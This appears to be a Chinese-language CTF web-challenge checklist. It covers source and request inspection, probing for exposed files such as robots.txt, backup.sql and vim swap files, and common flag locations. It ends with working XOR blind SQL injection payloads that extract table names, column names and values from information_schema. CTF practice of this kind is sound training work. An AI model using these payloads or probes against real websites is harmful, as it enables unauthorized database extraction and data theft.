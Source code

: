 拿到题，访问web。
查看源码 仔细查看或者搜索关键词，如flag,include等，提示方向。

F12查看网络请求情况。
最好抓包，仔细查看请求头，响应头信息。

查看传参，回显情况。sql注入，文件包含，模板注入。

目录测试，如flag.php，robots.txt
探针/tz.php，/backup.sql

临时文件是在vim编辑文本时就会创建的文件，如果程序正常退出，临时文件自动删除，如果意外退出就会保留，当vim异常退出后，因为未处理缓存文件，导致可以通过缓存文件恢复原始文件内容。所以通过在url后面加上/index.php.swp即可看到flag。
以index.php来说，第一次退出后，缓存文件名为index.php.swp，第二次退出后，缓存文件名为index.php.swo,第三次退出后文件名为index.php.swn。

^
一般flag在/flag或/flag.txt中，也可能在env命令环境变量中，还可能在phpinfo()中。

^
## **sql注入考点**
部分sql盲注入如逻辑盲注，需要使用代码一个一个字符跑出来。

异或盲注?id=1^1^1



```
获取表名
1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1))>0)^1
[*] F1naI1y,Flaaaaag~
猜测列名
1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='表名')),1,1))>0)^1
猜测值
1^(ord(substr((select(group_concat(列名))from(表名)),1,1))>0)^1
```

